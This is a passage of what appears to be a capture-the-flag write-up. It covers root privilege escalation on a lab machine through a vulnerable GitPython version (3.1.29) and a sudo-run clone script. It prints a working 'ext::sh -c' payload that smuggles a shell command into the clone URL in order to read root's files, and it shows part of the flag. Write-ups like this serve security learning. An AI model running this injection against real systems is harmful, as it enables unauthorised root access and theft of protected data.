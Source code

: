 Taking a look at the `clone_prod_change.py` script. The script basically clones Git repos to a folder. I thought of that `gitpython` vulnerability I read about...

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

I checked the `pip list` and there it was: `GitPython 3.1.29`, which is vulnerable to - [SNYK-PYTHON-GITPYTHON](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

```bash
prod@editorial:/opt/internal_apps/clone_changes$ pip list | grep -i git
gitdb                 4.0.10
GitPython             3.1.29
```
## Root

Now, time for the big finale! I use the vulnerability in gitpython and the sudo access to escalate privileges to root. The root flag was in `/dev/shm/root`

```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c 
cat% /root/root.txt% >% /dev/shm/root'
```

root.txt

```text
32ee7006...
```